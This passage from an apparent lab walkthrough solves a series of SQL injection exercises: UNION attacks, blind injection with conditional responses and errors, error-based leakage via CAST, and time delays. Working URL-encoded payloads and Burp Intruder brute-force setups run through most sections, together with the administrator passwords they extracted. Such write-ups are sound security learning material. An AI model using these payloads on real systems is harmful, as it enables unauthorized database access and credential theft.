Then, I had to ensure that both the columns were compatible with strings. Similar to [8](#8-sql-injection-union-attack-finding-a-column-containing-text), I used my script to create a permutation of NULLs and the string `test`, then used Intruder to automate the attack once more. Both of the columns were compatible with strings.

Now it's the easy part. I moved to BurpSuite's Repeater as I no longer needed iterative requests and quickly whipped up a request to figure out what version of SQL the server was running, like in [2](#3-sql-injection-attack-querying-the-database-type-and-version-on-oracle) and [4](#4-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft).
I translated the query `UNION SELECT VERSION(), NULL` into the injection payload `'+UNION+SELECT+VERSION(),+NULL+--+`. Luckily, this worked first try, meaning the database was on MySQL or PostgreSQL. Upon inspecting the reflected HTML, we can find the exact version:
> ```
> PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit
> users
> ```

Now that we know it's PostgreSQL, we can list all tables, find the table containing user details, and list out the columns of that table ([5](#5-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases), [6](#6-sql-injeciton-attack-listing-the-database-contents-on-oracle-databases)). PostgreSQL uses the `information_schema` table to store details about table and column names, so I created the following query:
> ```sql
> UNION SELECT table_name, NULL FROM information_schema.tables
> >>>
> '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables+--+
> ```

After scanning the HTML response, it turns out it was a normal-sounding name this time: `users`. \
I proceeded to find the columns of the `users` table using the following query:
> ```sql
> UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users
> >>>
> '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name%3d'users'+--+
> ```

The table had three (normal-sounding) column names: `username` `password` and `email`. \
As the last exfiltration step, I extracted the username and password of `administrator`: \
`UNION SELECT username, password FROM users WHERE username='administrator'` \
Translated into: \
`'+UNION+SELECT+username,+password+FROM+users+WHERE+username%3d'administrator'+--+`

And finally, the holy grail:
> ```
> <tr>
>     <th>administrator</th>
>     <td>kk35xgv9dt3mao2eu75v</td>
> </tr>
> ```
Using these details, I logged in, and the lab was done. Phew!

---

## 10. SQL injection UNION attack, retrieving multiple values in a single column


### Description
Similarly to [9](#9-sql-injection-union-attack-retrieving-data-from-other-tables), this lab entails finding the details of the user `administrator` whilst starting out in a different table. Except, this time the lab provides to us the name of the table as well as its columns: `users` with columns `username` and `password`.

### Solution
This lab was rather simple. First, I had to repeat [7](#7-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query) and [8](#8-sql-injection-union-attack-finding-a-column-containing-text) to find the number of columns as well as which one was compatible with text. Using my previous bash scripts and BurpSuite's Intruder, I was able to find that there were two columns, but surprisingly this time only the 2nd column was compatible with text:



With that, I was ready to attack:
> ```sql
> UNION SELECT NULL, password FROM users WHERE username='administrator'
> >>>
> '+UNION+SELECT+NULL,+password+FROM+users+WHERE+username%3d'administrator'+--+
> ```

And just like that, the holy grail:
> ```
> <tr>
>     <th>cpnquymz0d5ix4x8chi1</th>
> </tr>
> ```

---

## 11. Blind SQL injection with conditional responses


### Description
Another difficulty spike.
The lab introduces a lab environment that tracks our analytics using a cookie in our requests. The lab has a SQL injection vulnerability, but returns neither its query nor its errors. However, the page displays a "Welcome back!" message somewhere inside it if the query returns 1 or more rows. The task is to find the password for the user `administrator`. We are given three details: the login details are stored in `users`, and it has two columns: `username` and `password`.

The TrackingId field in the cookies had the value `v6K4PGGFuN7YPSCz`.

### Solution
First, I had to check how many columns the queried table had using BurpSuite's Intruder and the bash script from [7](#7-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query):
> ```sql
> UNION SELECT {nulls}
> >>>
> v6K4PGGFuN7YPSCz'+UNION+SELECT+{nulls}+--+
> ```

However, instead of merely looking at the response codes in Intruder's entry table, I had to look at the "length" field. This is because the only difference we can observe every query is whether or not `Welcome back!` is printed, which means a row had been found.



As seen in the image above, the request with one `NULL` had length 3431 instead of 3370, which likely means that `Welcome back!` had been reflected in the HTML. For this, BurpSuite also provides a "grep matching" function in Intruder, but I chose to go with the length method for now as it was consistent and the attack was already underway.

After confirming that it has only one column (we can assume that it is a string column as the cookie is a string), we now need to ensure the `users` table along with its columns `username` and `password` exist. This is trivial with the following query:
> ```sql
> AND (SELECT 'a' FROM users WHERE username='administrator')='a'
> >>>
> v6K4PGGFuN7YPSCz'+AND+(SELECT+'a'+FROM+users+WHERE+username=%3d'administrator')%3d'a'+--+
> ```
Note that the cookie must stay as the first half of the fragment must be a true assertion for us to be able to determine if the latter half is true. The above query essentially returns a character "a" if the user `administrator` exists, which guarantees that the column exists.

We may also check that `password` exists through a similar query, but for brevity this will be excluded.

Now, we need to find out how long the password is. I achieved this by using the following query in BurpSuite's Intruder:
> ```sql
> AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) > {number})='a'
> >>>
> v6K4PGGFuN7YPSCz'+AND+(SELECT+'a'+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)>{number})%3d'a'+-+`
> ```
In the above, `{number}` translates to the number list I'd inputted into Intruder's payload list. For this lab, I did 1 to 100.

Essentially, the above will only return true if the length of `password` is larger than `{number}`. Combined with repeater, we wait until the response returned drops in length, which is when `Welcome back!` stops being reflected in the HTML:



As seen above, the length of the response dropped at 20. Given that the check used was `>`, this means the password's length is exactly 20 lowercase alphanumeric characters (as prescribed by the lab instructions). Therefore, all that's left to do is check what character was at every position:
> ```sql
> AND (SELECT SUBSTRING(password,{pos},1) FROM users WHERE username='administrator')={char}
> >>>
> v6K4PGGFuN7YPSCz'+AND+(SELECT+SUBSTRING(password,{pos},1)+FROM+users+WHERE+username%3d'administrator')%3d{char}
> ```
`{pos}` and `{char}` will be substituted using Intruder's Cluster Bomb mode to iterate through all positions using all characters. \
The above iterates through all 20 positions, each of which could be 36 alphanumeric characters, for a total of 720 queries (this was REALLY slow on the community version!!).




I had to split numbers into another search as I had forgotten that the password could be alphanumeric, not just alphabetical. In any case, the 2nd picture showcases BurpSuite Intruder's "grep search" functionality within the `Welcome back!` column. In this case though, looking at the `length` field would have sufficed.

As seen in the images, after about 1 ~~century~~ hour of waiting, we now have the correct characters for every position. 
Piecing them together gives us the flag: 
> `y4j1xzs4bdxkpc04a8b6`

With the above, I logged into the site as `administrator` and finished the lab!

---

## 12. Blind SQL injection with conditional errors


### Description
A harder version of [11](#11-blind-sql-injection-with-conditional-responses). The lab is exactly the same, except the underlying application logic no longer responds conditionally. We are only able to see errors reflected through the HTML. To finish the lab, the details to the user `administrator` must be used to log in successfully.

The value of the TrackingId field used for page analytics in this question is `ygERiCVbJs6ai6ZH`.

### Solution
First, I needed to find out the version of SQL running on the server. Since the server returns errors to the front end, we can try to see if it's MySQL/PostgreSQL first. If an error is returned, then it's likely to be Oracle. This time, we use concatenation as we do not have any feedback to tell between true or false using logical `AND` operations: 
> ```sql
> SELECT VERSION()
> >>>
> ygERiCVbJs6ai6ZH'||(SELECT VERSION() FROM DUAL)+--+
> ```

The reason why we use `FROM DUAL` regardless of version is because Oracle SQL DBs require a `FROM` statement to be used with `SELECT`. Since it's compatible with both, doing this will save us the checks. 

Incidentally, the above returns a `500 Internal Server Error`, which means the database is likely Oracle. We can test this with the following: 
> ```sql
> SELECT banner FROM v$version WHERE ROWNUM=1
> >>>
> ygERiCVbJs6ai6ZH'||(SELECT+banner+FROM+v$version+WHERE+ROWNUM%3d1)
> ```

We use `WHERE ROWNUM=1` here because in Oracle, `SELECT banner FROM v$version` may return multiple values. Since the former fragment of this query presumably only returns one row, the concatenation will break if we don't restrict the latter fragment to only return one row.

The above request resulted in a `200 OK` when I submitted it, strongly suggesting that the underlying database is Oracle. Therefore the next step is to check whether the database `users` along with its columns `username` and `password` exist: 
> ```sql
> SELECT password FROM users WHERE username='administrator'
> >>>
> ygERiCVbJs6ai6ZH'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')+--+
> ```

The above ensures that all three exist all in one query. If an error occurs at all, that means one of them does not exist, and extra checks are required to ascertain which one it is. When I tried the query, it returned a `200 OK`, meaning all three must exist as no errors occured.

Similarly to [11](#11-blind-sql-injection-with-conditional-responses), we must now check how long the password is to prepare for the brute-force attack. However, as there is no way to engage with the response of the query, we must use a query that short-circuits into an error if a condition is fulfilled. One way we can do this is by using the following:
> ```sql
> SELECT CASE WHEN {case} THEN {out1} ELSE {out2} END
> ```

If we insert an error-invoking statement inside either `{out1}` or `{out2}`, then the server will show us a `500 Internal Server Error` when that condition is fulfilled, which makes it easy for us to tell if the `{case}` is fulfilled or not:
> ```sql
> SELECT CASE WHEN LENGTH(password)>{seq} THEN '' ELSE TO_CHAR(1/0) END
> ```

As seen, I chose `TO_CHAR(1/0)` as `1/0` will trigger a simple division-by-zero error. As for the `{case}`, we should use the length of the password:
> ```sql
> SELECT CASE WHEN LENGTH(password)>{seq} THEN '' ELSE TO_CHAR(1/0) END
> ```

`{seq}` will be iterated by BurpSuite Intruder's Cluster Bomb mode, which I've configured to go from 1 to 200. We put the error case after `ELSE` to make it easier to differentiate between a syntax error and a positive case. However, this query will work regardless should the conditions swap places, assuming the syntax is correct. The final payload is as follows:
> ```
> ygERiCVbJs6ai6ZH'||(SELECT+CASE+WHEN+LENGTH(password)>{seq}+THEN+''+ELSE+TO_CHAR(1/0)+END+FROM+users+WHERE+username%3d'administrator')+--+
> ```

The final part `WHERE username='administrator'` is important as the first half of the query will return only one row. If this is not present, then all the requests will return `500 Internal Server Error` if there is more than one entry in `users`.

We receive the following results from Intruder:



As seen, the status code goes from `200` to `500` as `seq=20`. This means that the password is of length exactly 20. With this, we can now start to brute-force the password, similar to [11](#11-blind-sql-injection-with-conditional-responses):
> ```sql
> SELECT CASE WHEN SUBSTR(password, {seq}, 1)='{char}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator'
> >>> 
> ygERiCVbJs6ai6ZH'||(SELECT+CASE+WHEN+SUBSTR(password,{seq},1)%3d'{char}'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')+--+
>```

~~Now we wait a century for 720 requests to finish...~~ \
Done! The following is the result of the Cluster Bomb attack:



This time, I've filtered the results to requests whose responses were `500 Internal Server Error`, as it is available to the Community Edition. I think the columns filter by ASCII value, so the indices are spliced, but at least they're in order this time. Taking the above values and putting them in order, we get the password to `administrator`:
> `oplaoviu3v6obqe2dl4p3`

And with that, I logged in and the lab was completed!

---

## 13. Visible error-based SQL injection


### Description
The lab involves abusing an exposed (detailed) SQL error in the application to log in to an administrator account.

This was a tricky one, despite not being as time-consuming as [11](#11-blind-sql-injection-with-conditional-responses) and [12](#12-blind-sql-injection-with-conditional-errors).

The analytics cookie in this lab was `5j0Wy2ztJNLeQZe6`.

### Solution
First, I tried to fish out some information by simply putting in a direct query concatenated to the analytics cookie, similar to what I did in [12](#12-blind-sql-injection-with-conditional-errors):
> ```sql
> SELECT password FROM users WHERE username='administrator'
> >>>
> 5j0Wy2ztJNLeQZe6'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')+--+
> ```

However, the error that came out was a little unexpected:
> ```html
> <p class=is-warning>
>     Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '5j0Wy2ztJNLeQZe(SELECT password FROM  users WHERE usernam'. Expected  char
> </p>
> ```

In the above, we can observe that the command had actually been truncated at the end (`usernam'`). This led me to believe that there was some sort of word limiter implemented in the application. Therefore, the query had to be shorter. As I was not able to exfiltrate the query results anyway, I decided to delete the cookie from the payload:
> `'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')+--+`

A different error popped up:
> ```html
> <p class=is-warning>
>     ERROR: syntax error at end of input
>     Position: 97
> </p>
> ```

However, I think that this is related to the word limit error, and may have showed differently because it has truncated my text in the middle of `'administrator'`, which would have preserved the left-most apostrophe. So, I replaced the `WHERE` query with `LIMIT 1` (because concatenation could only work with one value returned by the subquery) to see if I could pass this as a valid query: 
> `'||(SELECT+password+FROM+users+LIMIT+1)+--+`

With the above, the server returned a `200 OK`, meaning this query is valid. Now I can be sure of two things:
1. The `users` table exists along with the `password` column. This presumably means that `username` exists too.
2. I have to operate under a character limit.

Considering the above, a brute-force exfiltration like in [12](#12-blind-sql-injection-with-conditional-errors) was out of the question. Not only that, with the servers exposing the exact error to the front end, there was a much easier way. I could simply make the value for the admin's password appear within the error, which is possible using `CAST`:
> ```sql
> CAST((SELECT 'hello!!!!') AS int)
> >>>
> '||(CAST((SELECT+'hello!!!!')+AS+int))+--+
> ```

> ```html
> <p class=is-warning>
>     ERROR: invalid input syntax for type integer: "hello!!!!"
> </p>
> ```

We can adjust the above payload to:
> `'||CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)+--+`

For which the application returns the following error:
> ```html
> <p class=is-warning>
>     ERROR: invalid input syntax for type integer: "osll76crlyxsnqei1g3h"
> </p>
> ```

We use `LIMIT 1` because the account `administrator` is likely to be at the top in the context of this lab. However, in production environments this may not work and we may need other means of exfiltrating the `administrator` account's details.

With the above password, I logged into the `administrator` account and the lab was finished.

---

## 14. Blind SQL injection with time delays


### Description
The lab featured a vulnerable application that did not respond with query results or errors. To complete the lab, one must invoke a time delay on the server side using a SQL query.

The analytics cookie used in this lab was `qXdVxOlcKhKnLufi`.

### Solution
This one was rather straight forward. First I found different sleep commands for different DB versions:
>```
> MySQL - SLEEP(s)
> PostgreSQL - SLEEP(s)
> Oracle - DBMS_SESSION.SLEEP(s)
>```

All that was left to do was to try them sequentially as a concatenation to the result of the cookie query, using BurpSuite Repeater:
>```sql
> SELECT SLEEP(10)
> >>>
> qXdVxOlcKhKnLufi'||(SELECT+SLEEP(10))+--+
>```

The above did not work. However, eventually I tried:
>```sql
> SELECT PG_SLEEP(10)
> >>>
> qXdVxOlcKhKnLufi'||(SELECT+PG_SLEEP(10))+--+
>```

Which incurred a 10-second delay before getting the response from the server. This also means that the underlying DB was PostgreSQL.

Upon checking the lab status, it was indeed finished. So, lab complete!
